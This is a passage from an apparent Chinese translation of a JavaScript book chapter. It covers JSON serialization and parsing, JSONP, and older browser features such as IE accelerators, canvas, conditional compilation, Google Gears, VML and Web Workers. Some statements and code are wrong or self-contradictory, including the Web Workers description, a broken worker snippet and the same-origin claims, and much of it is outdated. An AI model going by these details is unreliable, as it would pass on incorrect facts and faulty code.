document.write( JSON.stringify( obj )+"<br />");
```

在之后的反序列化期间，我可能会使用 `customObject` 的改进内容来重构对象：

```javascript
if (customObject.customconstructor && customObject.customconstructor == "CustomClass") {
    customObject = new CustomClass(customObject.value);
}
```

处理这种情况的另一种方法是使用 `JSON.stringify()` 的 `Replacer` 功能。

## 使用 Replacer

传递 `JSON.stringify()` 的第二个参数是一个自定义函数，它可以过滤被检查的每个对象。它可以用于在值插入字符串之前进行“预处理”。考虑以下数组：

```javascript
var Countries = new Array("canada", "usa", "great britain", "australia");
```

如果我想输出该数组的大写 JSON 版本，可以使用替换函数来实现：

```javascript
document.write( JSON.stringify( Countries, function(key, value) {
    if (typeof value == "string") {
        return value.toString().toUpperCase();
    } else {
        return value;
    }
} ));
```

对于传递给替换函数的每个键值对，我检查其 `typeof` 是否为字符串。如果是，我将其转换为大写并返回结果。否则，我直接返回结果。在数组的情况下，传递给替换对象的序列如下：
1. `Object`。首先整个数组将被替换函数处理。如果我在此阶段更改数组，将影响所有的后续操作。
2. `String`. "canada"
3. `String`. "usa"
4. `String`. "great britain"
5. `String`. "australia"

`stringify()` 的最终输出将是`["CANADA", "USA", "GREATBRITAIN", "AUSTRALIA"]`

# 加载 JSON 数据

正如你在前面的示例所示，从 JSON 字符串转换为对象格式的最简单方法是使用 `eval()` 对其进行评估，如下：

```javascript
var jsonString = "{ apples: 21, bananas: 1}";
var jsonObj = eval("(" + jsonString + ")");
```

```javascript
alert( jsonObj.apples );
```

然而，由于前面提到的原因，这可能是危险的。ECMAScript 3.1 草案规范中的 JSON 对象包含一个名为 `parse()` 的方法，它的作用是在*不使用* `eval()` 的情况下将字符串转换为对象。内置在 IE8 和（可能还有）Firefox 3.5 中的原生 JSON 解析器与 `eval()` 或前文已经提到的 JSON.org 引用实现中的手动解析方法相比，还具有极快速度的优势。`JSON.parse()` 具有如下语法：

`JSON.parse(text [, reviver])`

第一个参数是包含有效 JSON 结构的字符串。第二个参数 `reviver` 是一个可选函数，用于过滤和转换结果。下面的示例获取一个 JSON 字符串并将 `parse()` 的结果赋值给变量：

```html
<html>
<head>
    <title>JSON.parse() 示例</title>
    <meta http-equiv="X-UA-Compatible" content="IE=8" />
    <script type="text/javascript" src="/json2.js" ></script>
</head>
<body>
    <h1>JSON.parse( ) 示例</h1>
    <div id="result"></div>
    <script type="text/javascript">
        var jsonString = '{"customers": [{"name": "Alexei White", "age": 29, "spam": false},{"name": "Tyson Lambert", "age": 29, "spam": true}]}';
        var jsonObj=JSON.parse(jsonString);
        document.write(jsonObj.customers[0].name ); // "Alexei White"
    </script>
</body>
</html>
```

再次注意我在顶部添加了 `<meta http-equiv="X-UA-Compatible" content="IE=8" />` 标签，告诉 Internet Explorer 8 使用原生 JSON 功能。当 `json2.js` 加载时，它会检测到这些功能的存在并使用它们而不是 JavaScript 实现。

## 自定义复转器 (Custom Revivers)

`JSON.parse()` 的第二个参数是一个可选的 JavaScript 函数句柄，用于在值赋值给结果对象之前对其进行“准备”。当对象已序列化但无法仅通过文本完全表示其应有形式时，这种情况非常有用。一个很好的例子是国际标准组织 (ISO) 日期值，它在 JSON 语法中是一个字符串，看起来如下：“2009-03-22T02:15:36Z”。使用 `reviver`，我可以检测这些值并将它们还原为正确的日期实例。复转器也可以用于反序列化如本章之前提到的 `CustomClass` 示例之类的自定义对象。

复转器接收一个键和一个值，并输出一个结果值。`parse()` 处理三种结果情况：
* 当复转器返回一个有效值时，旧值将被新值替换。
* 如果复转器返回与收到的值完全相同，则结构不会改变。
* 如果复转器返回 `null` 或 `undefined`，则从对象中删除该成员。

下面的示例解析了一个包含两个日期的 JSON 字符串。它传递了一个匿名函数，尝试检测日期并返回一个相应的日期进行替换：

```javascript
var jsonString = '[{"name": "Alexei White", "age": 29, "spam": false, "birthdate":"1980-03-10T12:00:00Z"},{"name": "Tyson Lambert", "age": 29, "spam": true, "birthdate":"1979-05-21T12:00:00Z"}]';
var jsonObj = JSON.parse(jsonString, function(key, value) {
    if (typeof value == "string")
        if (value.length == 20 && value.substring(19) == "Z"){
            // 它可能是一个日期，将其拆分为它的各个组成部分
            var dateArray = /^(\d{4})-(\d{2})-(\d{2})T(\d{2}):(\d{2}):(\d{2}(?:\.\d*)?)Z$/.exec(value);
            return new Date(Date.UTC(+dateArray[1], +dateArray[2] -1, +dateArray[3], +dateArray[4], +dateArray[5], +dateArray[6]));
        }
    // 否则直接返回该值
    return value;
});
```

传递给复转器的值集包括非日期和日期。复转器在尝试将其解析为数据之前，会检查字符串值的长度是否正确以及是否具有正确的终止符号。在我来自 `CustomClass` 的 `toJSON()` 方法案例中，我可以检查特殊对象类型是否存在。如果你还记得，我为 `CustomClass` 创建的特殊对象看起来如下：`{"customObject":{"constructor":"CustomClass","value":3.14}}`。要检测 `CustomClass` 的实例，只需观察 `constructor` 并查看它是否等于字符串 "CustomClass"：

```javascript
var jsonString = '{"customObject":{"constructor":"CustomClass","value":3.14}}';
var jsonObj = JSON.parse(jsonString, function(key, value) {
    if (typeof value == "object" && value.constructor)
        if (value.constructor == "CustomClass") {
            // 它是 CustomClass 的实例
            return new CustomClass(value);
        }
    // 否则返回值
    return value;
});
```

## 错误处理

当 JSON 字符串格式不正确时，调用 `parse()` 将导致 `SyntaxError`。你应该始终使用 `try...catch` 块来捕获这些情况：

```javascript
var jsonString = "{will throw}";
try {
    var jsonObj = JSON.parse(jsonString);
} catch(e) {
    // 处理错误
}
```

## JSON 与 Ajax

Ajax 和 JSON 是一对组合。你可以通过 Ajax 查询 URL，解析文本为 JSON 并使用 JavaScript 渲染。为了演示这一点，我将使用一个包含一些记录的 JSON 数据源，并在网格中渲染：

```json
{
    "customers": [
        {"name": "Alexei White", "email": "alexei.white@gmail.com", "age": 29},
        {"name": "Tyson Lambert", "email": "tyson@hidden.com", "age": 29},
        {"name": "Lara Freimond", "email": "lara@hidden.com", "age": 27}
    ]
}
```

接下来，我将使用 Ajax 获取文件。我们将重用第 19 章中写的 `XHR` 代码：

```javascript
var myXhr = new XHR();
myXhr.onreadystatechange = handleStatusChange;
myXhr.open("get", "data.json", true);
myXhr.send( null );
```

接下来，我们将为 `onreadystatechange` 提供定义的函数，它将检查 `readyState` 并解析 JSON 文本：

```javascript
function handleStatusChange() {
    if (myXhr.readyState == 4) {
        // 传输完成！解析 JSON
        try {
            var jsObj = JSON.parse(myXhr.responseText);
            // 在此阶段，标识 jsObj 将包含对象形式的 JSON 文档
            // 我可以遍历结果并构建 HTML 表格：
            var resultHTML = '<table border="1"><tr><th>Name</th><th>Email</th><th>Age</th></tr>';
            for (var i = 0; i < jsObj.customers.length;i++) {
                var cust = jsObj.customers[i];
                resultHTML += "<tr><td>" + cust.name + "</td>";
                resultHTML += "<td>" + cust.email + "</td>";
                resultHTML += "<td>" + cust.age + "</td></tr>";
            }
            resultHTML += "</table>";
            // 最后，我们将把结果输出到页面上的 div 中并关闭函数：
            document.getElementById('result').innerHTML = resultHTML;
        } catch(e) {
            alert('invalidJSON!' + e);
        }
    }
}
```

在第 19 章中，我演示了如何使用跨域脚本请求来传输信息。其原理很简单：只需动态向 DOM 插入一个 `<script>` 标签，并将 URL 设置为互联网上的任何位置（例如 `http://geodata.org/get_my_location/`），浏览器就会自动下载并将结果作为脚本 `evaluate`。你可以通过这种方式编写一个 Web 服务，它响应一个 JSON 块并将其赋值变量，例如：`var JSONData = {some:true,thing:true};`。问题在于，如果你是 `providing` Web 服务的人而不是使用者，那么你该如何知道将结果赋值给哪个变量呢？此外，数据的消费者（网页）难道不会更倾向于让 Web 服务响应像这样的函数调用吗：`handleJSONResponse( {} );` 这样他（或她）就可以轻松地接入接收数据的事件？显然，一个 `onreadystatechange` 风格的回调函数比猜测脚本请求何时完成要有用得多。这两个问题的解决方案都是 `JSONP`（带有填充的 JSON）。JSONP 是由 Bob Ippolito 提出的一种协议，它标准化了一种方法，为 Web 服务提供你希望其执行的回调函数名称。它是通过一个恰好命名为 `jsonp` 的参数来实现的。原理很简单：消费者脚本（运行在网页中并想要获取数据的 JavaScript）带有该参数调用 Web 服务并指定一个回调函数：`http://geodata.org/get_my_location/?jsonp=handleJSONResponse`。然后 Web 服务返回一个对该参数上执行函数调用的脚本：`handleJSONResponse({some:true, thing: true} );`。执行 JSONP 请求的 JavaScript 代码可能像这样：

```javascript
function JSONP(url, callbackFnName) {
  // 检查 URL 是否已经包含问号
  if (url.indexOf("?") > -1)
    url += "&jsonp="
  else
    url += "?jsonp="
  url += encodeURIComponent(callbackFnName) + "&";
  // 防止缓存
  url += new Date().getTime().toString();
  // 现在将脚本附加到文档
  var script = document.createElement("script");
  script.src = url;
  script.type = "text/javascript";
  document.body.appendChild(script);
}
```

`JSONP()` 函数接收两个参数。第一个是带有所有所需参数的 Web 服务 URL。第二个是你希望该服务调用的函数名称。例如：

```javascript
function handleJSONResponse( jsonObj ) {
  alert("Response Received!");
}
```

`JSONP("http://geodata.org/get_my_location/", "handleJSONResponse");` 许多公共 Web 服务都以不同形式支持 JSONP，尽管其中许多服务并没有完全按照此处描述的方式来实现该协议。例如，如果你使用 Yahoo! Search Web 服务，你可以指定一个回调 URL，它的功能完全符合我在这里描述的内容：`http://search.yahooapis.com/WebSearchService/V1/webSearch?appid=YahooDemo&query=finances&format=pdf&output=json&callback=handleJSONResponse` Yahoo! 将把结果集作为我的回调函数的参数进行响应：`handleJSONResponse({"ResultSet":{"type":"web","totalResultsAvailable":22600000,"totalResultsReturned":10,"firstResultPosi...` 然而，关于脚本请求，有一点需要记住，即结果总是会被评估的。这等同于执行 `eval()`，应该只对受信任的数据提供者使用。

## 总结

在本章中，你学习了许多关于 JavaScript 对象表示法 JSON 的知识。回顾一下，我涵盖了以下主题：
* JSON 实际上是 JavaScript 的子集，并基于对象字量概念构建。然而，在正确的实现中，你不能拥有像函数定义或对象构造函数这样的可执行代码，而这些在对象字量中是可以的。
* 将 JSON 文本转换为 JavaScript 对象的最简单方法是对进行 `eval()`。然而，这引入了一些不应忽视的安全风险。
* 在 ECMAScript 3.1 草案提案中定义了在不使用 `eval()` 的情况下安全生成和消费 JSON 文本的功能。这已经在 Internet Explorer 8 中实现，并将在 Firefox 3.5 中可用。
* 在 [`JSON.org`](http://JSON.org) 有上述 ECMAScript 3.1 功能的免费开源实现，它也与已经支持这些功能的浏览器兼容。你可以在你的应用程序中使用此库来立即使用这一新功能。

通过 Internet Explorer 8，微软引入了多种新的插件类型。其中一种就是 `accelerators`（加速器）。加速器是基于上下文的（或基于选择的）菜单对象，允许从任何网页快速访问第三方 Web 应用程序或服务。加速器的编写目的是为了提供页内映射（即向用户显示所选地址的地图）、字典和百科全书查询，甚至是翻译服务。与 ActiveX 控制不同，加速器不是编译代码，并且运行在极受限的安全沙箱中，因此对安全问题的担忧较少。

由于这是一项新功能，最好先进行一些功能检测以查看其是否可用。如果 Internet Explorer 8 被设置为在旧留模式（Legacy mode）下运行，加速器可能不可用，因此始终要进行功能检测而不是浏览器检测。

要检测对加速器的支持，请检查 `window.external.AddService` 是否存在：

```javascript
function supportsAccelerators() {
    if (window["external"] && window.external["AddService"])
        return true;
    else
        return false;
}
```

要安装加速器，请在 XML 文件上调用 `window.external.AddService()`。同源策略（Same Origin Policy）在这里无效：`window.external.AddService('http://www.example.com/accelerator.xml');`。

你可能想先确定是否已经安装了加速器。可以使用 `window.external.IsServiceInstalled()`，其语法如下：

`var Result = window.external.IsServiceInstalled(URL, Verb)`

`URL` 是你想查询的加速器的主页。`Verb` 是加速器内部定义的项，映射到它将执行的实际活动。例如，如果你在 `http://www.example.com/accelerator.xml` 有一个加速器，并且有一个名为 "map" 的动，你可以这样测试它是否已安装：

```javascript
if (window.external.IsServiceInstalled('http://www.example.com/accelerator.xml', 'map') > 0) {
    // 已经安装
    alert("That Accelerator has already been installed!");
} else {
    window.external.AddService('http://www.example.com/accelerator.xml');
}
```

尽管加速器与 Firefox 插件有些相似之处，但后者的局限性要大得多。而且 Firefox 或 WebKit 也不可能永远原生支持微软的加速器。请记住，这些方法调用受第 17 节提到的`同源策略`限制。当前网页的域名必须与加速器 XML 文件主页 URL 的域名匹配，否则在尝试安装时可能会得到“拒绝访问”（Permission Denied）错误。

# Canvas

Canvas 是 HTML5 规范的一部分，为 JavaScript 提供了一个绘制表面，支持人们对 2D 绘图工具预期的所有功能，如多边形、渐变、线条和纹理，同时也支持动画。它由 Apple 引入用于 `WebKit` 内部以及 `MacOS X` 仪表。随后，它被基于 `Gecko` 的浏览器采用，包括 Firefox 1.5，以及 Opera 和 Chrome。Internet Explorer 不支持 Canvas，它已经有了矢量标记语言（VML）。

本质上，`canvas` 元素与其他任何块级 HTML 元素一样可以作为 DOM 成员被引用。然而，`canvas` 元素内部的形状并不是 DOM 的一部分。一旦内容绘制到 `canvas` 上，它就只是像素的集合；其对象表示就消失了。

在开始使用 canvas 功能之前，你应该先进行功能检测以查看浏览器是否支持它。你可以通过测试 `<canvas>` 标签的 `getContext()` 功能来实现：

```javascript
var canvas = document.getElementById('sample_element');
if (canvas.getContext) {
    // 支持 Canvas
} else {
    // 不支持
}
```

要渲染图形，只需获取 canvas 对象的引用并调用许多绘制方法之一。下面的示例显示了如何使用 canvas 绘制一个矩形：

```javascript
var canvas = document.getElementById('sample_element');
if (canvas.getContext) {
    var ctx = canvas.getContext("2d");
    ctx.fillStyle = "red";
    ctx.fillRect(10, 10, 150, 100);
}
```

## Animation

Canvas 元素没有内置的动画机制，它们不是基于对象的，所以你必须通过以下步骤来实现动画。你可以轻松通过添加 `setTimeout()` 来动画示例：
1. 绘制初始状态。
2. 记住对象的状态。
3. 设置一个毫秒超时。
4. 清除 canvas。
5. 绘制更新后的状态。
6. 重复步骤 2。

```html
<html>
<head>
<script type="text/javascript">
var boxPosition = 0;
function drawBoxes() {
    var canvas = document.getElementById("canvas");
    if (canvas.getContext) {
        var ctx = canvas.getContext("2d");
        ctx.fillStyle = "rgba(255, 0, 0, 0.5)";
        ctx.fillRect(boxPosition, 50, 65, 85);
        boxPosition += 1;
        if (boxPosition > 100) {
            boxPosition = 0;
        }
        ctx.clearRect(0, 0, 100, 125);
        setTimeout(drawBoxes, 100);
    }
}
</script>
</head>
<body onload="drawBoxes()">
    <canvas id="canvas" width="100" height="125"></canvas>
</body>
</html>
```

## Conditional Compilation

在 Internet Explorer 4.0 中，微软引入了*条件编译*，它允许某些 JavaScript 代码对 Internet Explorer 可见，而对任何其他浏览器无效。此功能的工作原理是没有任何浏览器支持它。它也是一种拥有自身变量、表达式和语句的条件结构。幸运的是，这些看起来非常像 JavaScript：

```javascript
/*@cc_on*/
/*@if (@jscript_version >= 5)
    document.write("你必须拥有 JScript 5.0 或更高版本。");
@else
    document.write("你没有 Internet Explorer 或版本低于 5.0。");
/*@end @*/
```

在前面的示例中，块注释内的第一行代码（`@cc_on`）告诉 Internet Explorer 激活条件编译支持。如果没有，它将像其他浏览器一样忽略块注释的内容。

然后，语句 `@if (@jscript_version >= 5)` 了一个预定义变量。IE 有许多预定义变量。在附录 A 中找到这些变量列表以及条件注释的完整引用。你也可以定义自己的变量，但这些不会与 JavaScript 变量重叠，且无法从 JavaScript 读取。要创建自己的变量，请使用 `@set` 语句：

```javascript
/*@set @myVar = 12*/
/*@set @myVar2 = (@myVar * 20) @*/
```

```javascript
/*@set @myVar3 = @_jscript_version @*/
/*@if (@myVar != @myVar2)
    // Perform some JavaScript
```

条件编译支持一些与 JavaScript 相似的条件结构，但存在一些差异：
- `@if`
- `@elif`
- `@else`
- 像 `@if` 这样的 `@endBlock` 语句总是以 `@end` 结尾。还要注意，没有 `else if`。相反地，请使用 `@elif`。最后，请注意条件编译语句不像像 JavaScript 语句那样以分号结尾。该功能的主要用途是根据浏览器对代码进行分支处理。在之前的章节中，如果我写如下代码：

```javascript
if ('\v' == 'v') {
    // IE
} else {
    // non IE
}
```

我同样可以轻松使用条件编译语句代替：

```javascript
/*@cc_on
@if (@_jscript_version >= 4)
    // IE code
@else @*/
    // NON IE Code
/*@end @*/
```

如果你最终使用了此功能，请务必查看附录 A 获取更完整的内容。

## CSS Transforms

2007 年，Apple 引入了 `CSS Transforms`，它提供了一种以通常无法实现转换或修改 DOM 元素的方法。通过变换，你可以旋转、渐变、改变透明度、移动、旋转和翻转任何 DOM 元素。Mozilla 也实现了变换（并入 Firefox 3.5），但没有实现 `animation` 或过渡功能。与 DHTML 相比，变换在动画方面具有几个优势。其中一个是 WebKit 中的过渡极其，远快于使用 DHTML 实现等效果。另一个是可以执行 DHTML 无法的操作，例如旋转和倾斜。

它的工作原理非常简单。变换通过 CSS 应用。在 WebKit 中，CSS 属性是 `-webkit-transform`。在 Firefox 中，它是 `-moz-transform`。变换*旨在*通过 CSS 类进行应用，一个非常经典的用例是鼠标悬停（rollover）：

```html
<style type="text/css">
.myElement {
}
.myElement:hover {
    -webkit-transform: scale(1.25, 0.5);
    -moz-transform: scale(1.25, 0.5);
}
</style>
```

这会导致类名为 `myElement` 的元素在用户鼠标悬停在其上方时略微放大。当然，你也可以同样地使用 JavaScript 通过 DOM 应用这些变换：

```html
<html>
<head>
<style type="text/css">
#bigBox {
    background-color: yellow;
    margin:20px;
    padding: 20px;
    width:100px;
    height:100px;
    border: 2px solid red;
}
</style>
<script type="text/javascript">
function changeDiv() {
    var bigBox = document.getElementById("bigBox");
    bigBox.style['MozTransform'] = 'rotate(15deg)';
    bigBox.style['-webkit-transform'] = 'rotate(15deg)';
}
</script>
</head>
<body>
    <div id="bigBox" onclick="changeDiv()">Click On Me</div>
</body>
</html>
```

在这个示例中，当用户点击它时，这个正方形的 div 将旋转，如图 22-2 所示所示。图 22-2。在 WebKit 中，要制作变换可以使用 `CSS Transitions`，它定义了缓动方程和定时，但由于 Mozilla 短内不会支持它，你应该使用用于 DHTML 动画的相同技术，即定时器：

```javascript
var boxRotation = 0;
function animateBox() {
    var bigBox = document.getElementById("bigBox");
    bigBox.style['MozTransform'] = 'rotate(' + boxRotation + 'deg)';
    bigBox.style['-webkit-transform'] = 'rotate(' + boxRotation + 'deg)';
    boxRotation += 1;
    if (boxRotation > 360)
        boxRotation -= 360;
}
```

Google 的名为 `Gears` 的插件产品增加了一系列吸引高端消费者或企业级应用开发者的功能。我将其称为“浏览器特性功能”，因为它实际上是内置在 Google 的 Chrome 浏览器中的。任何使用 Chrome 的用户都自动拥有 Gears，这对于应用开发者来说非常棒，因为这让分发变得简单得多，并且应该提高插件的采纳率。

Gears 为浏览器增加了以下功能：
- 一个类似于 HTML5 数据库存储的 `SQLite` 数据库。
- 一个名为 `WorkerPool` 的线程模块，允许 JavaScript 的并行执行。这与 `Web Workers` 某些相似。
- 一个名为 `LocalServer` 的离线 Web 服务器模块，可以在没有 Internet 连接时缓存并提供应用程序的服务。
- 一个提供与用户桌面进行有限交互的接口。
- 一个地理定位模块。让我们来看一下其中几个功能。在这些示例中，我将使用 Gears 的 beta 版本。

## 检测和安装 Gears

在开始使用 Gears 功能之前，最好进行检查以查看是否安装了 Gears。Google 提供了一个非常友好的落地落地页，你可以将用户重定向到该页面，当他们完成后会被重回，并显示自定义消息。

在检查 Gears 之前，你必须下载一个名为 `gears_init.js` 的特殊 JavaScript 文件，该文件可以在 [`code.google.com`](http://code.google.com) Gears 网站获取。在我的示例中，我直接从该网站引用它，但不应该在环境中这样做。一旦你在页面中包含了此文件，就可以测试 `window.google` 和 `window.google.gears` 以确保 Gears 已安装且所有设置均正确：

```html
<script src="http://code.google.com/apis/gears/gears_init.js"></script>
```

```javascript
<script>
if (!window.google || !google.gears) {
    var welcomeMessage = "感谢尝试我的网站。请先安装 Google Gears!";
    window.location = "http://gears.google.com/?action=install&message=" + escape(welcomeMessage) + "&return=" + window.location;
}
</script>
```

在这个示例中，如果没有安装 Gears，用户将被重定向到下载网站。

## 使用数据库

Gears 内置的数据库是 `SQLite` 的一个版本，类似于 WebKit 作为其 HTML5 客户端存储实现的一部分的数据库。Gears 版本还包含了全文搜索扩展 `fts2`，因此你可以对文本字段内部进行搜索。它不是世界上最快的数据库，但对于客户端处理来说足够胜任。

要获取数据库类的实例，请使用 `google.gears.factory.create()` 并传入参数 `"beta.database"`：

```javascript
var db = google.gears.factory.create('beta.database');
```

此时，如果用户尚未授予权限，他们可能会看到一个对话框，提示他们是否想要授予对你的脚本的权限。假设他们说了“是”，你的代码就可以继续执行。

像 WebKit 一样，Gears 支持事务和参数化查询。查看下面的这个简单演示将让你想起第 18 章中的示例：

```javascript
db.open('wrox-test');
db.execute('CREATE TABLE IF NOT EXISTS InfoTest (Phrase text, Timestamp int)');
db.execute('INSERT INTO InfoTest VALUES (?, ?)', ['Wrox Books', new Date().getTime()]);
var rs = db.execute('SELECT * FROM InfoTest ORDER BY Timestamp desc');
while (rs.isValidRow()) {
    document.getElementById("queryresult").innerHTML = "Phrase: " + rs.field(0) + ": Time: " + rs.field(1);
    rs.next();
}
rs.close();
```

当执行 `SELECT` 查询时，它会将结果写入到页面上 id 为 `"queryresult"` 的 div 中。

## 使用地理定位

gears 内部的地理定位 API 基于 Mozilla 实现的 W3C 标准。语法和对象几乎相同。要创建地理定位对象的实例，再次使用 `google.gears.factory.create()` 并传入字符串 `"beta.geolocation"`：

```javascript
var geo = google.gears.factory.create('beta.geolocation');
```

要获取当前坐标，使用与 Firefox 中相同的 `getCurrentPosition()` 方法。这里的唯一区别是经纬度对象直接位于 position 对象上，而不是 `position.coords`。

```javascript
// 获取位置
geo.getCurrentPosition(function(position) {
    var posStr = "";
    posStr += "Lat: " + position.latitude + "<br />";
    posStr += "Long: " + position.longitude;
    document.getElementById('position').innerHTML = posStr;
}, function(error) {
    document.getElementById('position').innerHTML = error.message;
});
```

Gears 还支持像 Firefox 实现样的 `watchPosition()`，因此也支持 `clearWatch()`。

## 使用 WorkerPool

在我对框架的这个草率概述中，我将谈到的最后一个 Gears 功能是 `WorkerPool`，这是一个线程模块，允许你并发运行多个 JavaScript 线程而不会阻塞浏览器。Worker 线程可以从包含 JavaScript 的字符串（是的，它将使用 `eval()`），也可以从外部文件创建。线程之间不共享任何状态，这意味着变量在线程之间是不共享的，子线程无法访问 document 或 window。这并不是说线程不能影响文档，但更改必须在主浏览器线程中发生，子线程可以与进行通信。这使得 WorkerPool 线程擅长某些任务，但不擅长其他任务。例如，WorkerPool 线程擅长：
- 执行 CPU 密集型计算。
- 与服务器进行大量数据通信。
- 运行可能会发生命名冲突的库实例。

由于线程无法访问 DOM，你无法通过将 UI 任务卸载给它们来获得很大收益。在主浏览器线程中，通过调用 `google.gears.factory.create()` 创建 WorkerPool 类实例，使用参数 `"beta.workerpool"`：

```javascript
var workerPool = google.gears.factory.create('beta.workerpool');
```

接下来，首先要做的是定义线程如何处理收到的消息。你需要在创建任何线程之前这样做，否则你可能会丢失某些传入的消息。消息回调函数名为 `onmessage`，这些函数接受三个参数：`onmessage(messageText, senderId, messageObject)`。第一个参数 `messageText` 是发送的消息。第二个参数 `senderId` 是发送消息的线程句柄。第三个参数 `messageObject` 包含了这些值以及其他几个值。我的消息处理器将某些文本输出到屏幕上的 div 中：

```html
<div id="workerlog"></div>
```

```html
<script type="text/javascript">
workerPool.onmessage = function(a, b, message) {
    var divObj = document.getElementById("workerlog");
    divObj.innerHTML = "收到来自 worker " + message.sender + ": <br />" + message.body + "<br><Br>" + divObj.innerHTML;
};
</script>
```

最后，我可以创建一个线程。我将从外部 JavaScript 文件执行此操作：

```javascript
var childWorkerId = workerPool.createWorkerFromUrl('thread.js');
```

现在，在我的 `thread.js` 文件，使用相同的机制为发送给它的消息设置另一个回调。在下面的示例中，一旦 worker 接收到消息，它就会进入无限循环。嵌入在主浏览器线程中的类似循环通常会阻塞浏览器。相反，它每秒触发多次 `"workerlog"` div 内容的更新，同时浏览器界面仍保持响应。

```javascript
// 线程 JAVASCRIPT 文件 (thread.js)
google.gears.workerPool.onmessage = function(a, b, message) {
    while (true) {
        google.gears.workerPool.sendMessage("Hi from worker!", message.sender);
    }
}
```

`最后`，为了启动整个循环，我将从浏览器线程向子线程发送消息：`workerPool.sendMessage({somedata: "Come back, worker thread!"}, childWorkerId);`。

# 搜索提供者

OpenSearch 标准指的是一组技术，这些技术允许 浏览器等设备与互联网上的搜索提供者（如 Google、Yahoo! 和 MSN 等）进行交互。对于 Web 浏览器而言，“搜索提供者”的核心是一个简单的 XML 文件，它定义了与 Web 服务通信的规则。Internet Explorer 7+ 和 Firefox 2+ 都支持 OpenSearch，而且 Firefox 还支持 Sherlock 格式。以下 XML 文件展示了 OpenSearch 1.1 定义文件的基础示例：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<OpenSearchDescription xmlns="http://a9.com/-/spec/opensearch/1.1/">
  <ShortName>Google Something</ShortName>
  <Description>在 Google Maps 中搜索位置</Description>
  <Image type="image/vnd.microsoft.icon" height="16" width="16">http://maps.google.com/favicon.ico</Image>
  <Url template="http://maps.google.com/?q={searchTerms}" type="text/html" />
</OpenSearchDescription>
```

要在任一浏览器中安装搜索提供者，只需调用：`window.external.AddSearchProvider()`:`window.external.AddSearchProvider('msdn.xml')`。下面的实用函数执行功能检测并使用任何可用方法安装搜索提供者：

```javascript
function instSearchProvider(url) {
  if (window.external && window.external["AddSearchProvider"]) {
    // Firefox 2, IE 7 (OpenSearch)
    window.external.AddSearchProvider(url);
  } else {
    // 不支持搜索引擎 (IE 6, Opera, 等)。
    alert("No search engine support");
  }
}
```

# 矢量标记语言

矢量标记语言 (`VML`) 是一种基于 XML 的线条图图形工具。它最初由微软于 1998 年与 Macromedia、惠尔罗普罗特、Autodesk 等公司一起作为建议标准提交给 W3C。最终，由于在同一时间提交了几个类似的标准，W3C 成立了一个工作组并产生了 SVG 标准。这是微软开创的另一项技术，最终被与其相似但又不同的技术所取代。VML 仅由 Internet Explorer 支持（至少在浏览器领域）。当用户在 Explorer 中查看页面时，Google Maps 使用 VML 绘制路线矢量。

在页面上开始使用 VML 元素之前，你需要在你的 HTML 标签中添加 XML 命名空间：`<html xmlns:v="urn:schemas-microsoft-com:vml">`。

然后，你需要在 CSS 中添加 DHTML 行为。在 head 头部某处使用以下行代码：`<style> v\:* { behavior: url(#default#VML); }</style>`。VML 元素的巧妙之处在于它们是 DOM 的一部分。通过 DHTML 在屏幕上移动 DOM 元素就像移动 HTML 元素一样。下面的演示创建了两个圆形形状，并使用定时器让其中一个随时间移动到另一个下方：

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
  <style> v\:* { behavior: url(#default#VML); }</style>
  <script type="text/javascript">
    var hpos = 40;
    function moveCircle() {
      var circ = document.getElementById('circ1');
      hpos += 1;
      circ.style.left = hpos + "px";
      setTimeout(moveCircle, 20);
    }
  </script>
</head>
<body onload="moveCircle()">
  <h1>VML Demo</h1>
  <v:oval id="circ1" style="position:absolute;top:40;left:40;width:200;height:200;">Circle 1</v:oval>
  <v:oval fillcolor="yellow" style="position:absolute;top:80;left:80;width:200;height:200;">Circle 2</v:oval>
</body>
</html>
```

你可以在图 22-3 中看到此页面的输出。

# Web Workers

较新版本的 Firefox（特别是 3.5 以及任何基于 Gecko 1.9 的版本）支持与 Gears 非常相似的线程模型。此功能被称为 Web Workers。Workers 拥有与其在 Gears 中相同的限制和能力。例如：• Workers 无法访问 window 或 document。Workers 共享任何执行上下文并且是线程安全的。• Workers 无法修改 DOM。相反，它们向主线程发送消息，由主线程代表 Workers 进行 DOM 更改。创建一个工作线程与你在 Gears 中的操作非常相似，但不需要完全相同的设置。只需创建 `Worker` 对象的实例即可：

```javascript
var worker = new Worker("thread.js");
```

正如之前的 Gears 示例一样，我将使用一个 div 输出所有程序消息：`<div id="workerlog"></div>`。Worker 之间的往返消息通过 `onmessage` 事件处理。然而，请注意 Firefox 的实现消除了冗余的两个变量。只传输单个参数。消息内容将位于该对象的 `data` 成员中：

```javascript
worker.onmessage = function(message) {
  var divObj = document.getElementById("workerlog");
  divObj.innerHTML = "Received message from worker: <br />" + message.data;
  message + "<br><Br>" + divObj.innerHTML;
};
```

最后，要发送消息使用 `Worker` 实例的 `postMessage()` 方法：

```javascript
worker.postMessage({somedata: "Come back, worker thread!"});
```

在 Worker 自身（`thread.js`），唯一真正重要的部分是接收其他线程消息的 `onmessage` 处理器：

```javascript
// 一个 WORKER 脚本文件
onmessage = function(message) {
  postMessage({message: "Hi from worker!"});
}
postMessage({message: "Hi from worker again."});
```

Worker 线程根据需要可以创建自己的线程，Worker 可以在持续运行而不影响浏览器性能或交互。

## 终止 Worker

线程可以自终止，父线程可以通过调用 `terminate()` 强制终止子线程：

```javascript
worker.terminate();
```

以这种方式杀掉的 Worker 会立即停止，没有任何卸载事件或执行清理的机会。

在本章中，我涵盖了许多流行浏览器提供的、对 JavaScript 开发者感兴趣的独特特性。这些特性中的许多处于 Web 开发所谓的“前沿边缘”，浏览器支持度非常低。另一些则已经得到了相当广泛的接受。回顾一下，我讨论了：

- Internet Explorer 加速器（accelerators）是一种新型的“安全”特定上下文相关的浏览器插件。我向你展示了如何通过 JavaScript 检测支持并安装加速器。
- 我讨论了 `Webkit`、`Firefox` 和 `Opera` 对 `canvas` 的支持。我向你展示了如何通过每秒重绘制多次表面来来实现基础动画。
- Internet Explorer 支持一种名为“条件编译”（Conditional Compilation）的有趣功能，它允许开发者在 `IE` 中选择性地执行代码，而无需使用复杂且脆弱的功能或用户代理检测方法。
- `Firefox 3.5` 支持新的 `Geolocation API`，结合数据提供者时，它可以为 JavaScript 应用提供相当准确的定位数据。
- `Google Gears` 是一个直接内置在 `Google Chrome` 中的多功能插件，提供了 `SQLite` 数据库、地理定位、多线程、桌面交互等功能。
- Internet Explorer 和 `Firefox` 都支持 `OpenSearch XML` 标准，可以将第三方搜索服务直接插入浏览器。我向你演示了如何从 JavaScript 安装搜索提供者。
